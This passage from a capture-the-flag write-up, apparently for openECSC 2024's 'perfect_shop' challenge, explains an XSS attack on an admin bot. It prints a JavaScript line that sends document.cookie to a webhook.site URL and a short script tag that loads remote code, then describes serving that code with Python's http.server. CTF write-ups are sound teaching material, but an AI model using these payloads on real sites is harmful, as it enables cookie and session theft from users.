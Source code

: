 After trying and retrying, convincing myself more and more that I wasn't using the right approach, and scrutinizing the challenge files over and over again, including the templates that I considered completely safe, my eyes fell on the commented Bootstrap CDN.

What is done with the CDN is to include JavaScript code present on an external server on the page that calls it. To do this, all you need is a reference to this server and a `script` tag. Eureka.

#### XSS RFI
I think I can call it a Remote File Inclusion?

In the end, the solution was to write your payload to any file. The payload can be as long as you want, the important thing is that the tag that includes the JavaScript code in it is less than 50 characters.

At this point, I created a file named `x.js` that would change the page's address to that of my server, like this:

```js
window.location = "https://webhook.site/[REDACTED]?c=" + document.cookie;
```

At this point, all it took was to send the bot a payload that made it search for `<script src='//[IP]:[PORT]/'></script>`, so that it included the file from my server, executed it, and sent me the flag by changing the page's address from that of the challenge to that of my webhook, including the cookie parameters related to the challenge site as query parameters.

#### How to expose your server to the world

To expose your files to the rest of the internet, you don't need to physically own a server. Your PC can serve this purpose without much trouble. All you need is Python to do what I did during the competition, so I believe any operating system that supports Python also allows you to expose a server as I'm about to show:

Firstly, you need to get your local IP, which on Linux you can obtain by running the command `ifconfig`:

![Example of finding local IP with ifconfig](/writeups/openecsc-2024/perfect_shop/img/ifconfig.png)

You will likely see an IP starting with `192.`; here, I tested it on my university's MAN.

Then, to expose the file containing the payload to the local network, you can use the Python command `python3 -m http.server [PORT]`. This command sets up a simple HTTP server that exposes all files in the folder and its subfolders where the command was executed. This means that at the URL `http://[IP]:[PORT]/x.js`, if everything is set up correctly, you should find the payload.

![Example of a simple HTTP server](/writeups/openecsc-2024/perfect_shop/img/SimpleHTTPserver.png)

Opening it, you should be able to see the payload, which is not being executed. Do not be afraid; when this is included in the script tag, it will be executed as necessary.

As all good kids know, it's the router that communicates with the fantastic world of the internet, not our device directly, which only receives and sends information via the router. To find out what your external IP address is, you can use an online service like [whatismyip.com](https://www.whatismyip.com/). 

At this point, we have almost everything: we know the IP address where the file to be included in the script tag passed to the bot will be located (i.e., the IP we just found), and we know the port on our device where our files are exposed (after all, we chose it).
